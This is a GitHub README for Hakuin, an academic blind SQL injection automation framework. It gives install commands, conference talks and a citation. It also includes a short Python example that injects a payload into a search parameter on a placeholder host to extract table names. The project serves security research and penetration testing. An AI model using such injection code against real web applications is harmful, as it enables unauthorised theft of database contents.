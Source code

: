 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstracts away the extraction logic and allows users to easily and efficiently dump databases from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, including pre-trained and adaptive language models, opportunistic guessing, statistical modeling, parallelism, and much more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BSides, Bratislava](https://bsidesba.sk/schedule), 2025
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).



## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```



## Command Line Tool
Hakuin ships with an intuitive tool that offers most of Hakuin's features directly from the command line:
```
hk -h
```



## Custom Scripting
Sometimes, BSQLI vulnerabilities are too tricky to exploit from the command line and require custom scripting. This is where Hakuin shines, allowing you to customize absolutely everything - the injection logic, the inference logic, and even the queries.

Here is a minimal example:
```python
import asyncio
import aiohttp
from hakuin import Extractor, Requester

class SimpleRequester(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        url = f'http://target.com/users?search=XXX" OR ({payload})--'
        async with aiohttp.request('GET', url) as resp:
            return resp.status == 200

async def main():
    requester = SimpleRequester():
    ext = Extractor(requester=requester, dbms='sqlite')
    data = await ext.extract_table_names()
    print(data)

asyncio.run(main())
```

Make sure to go through our [tutorial](https://github.com/pruzko/hakuin/blob/main/publications/TUTORIAL.md).



## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
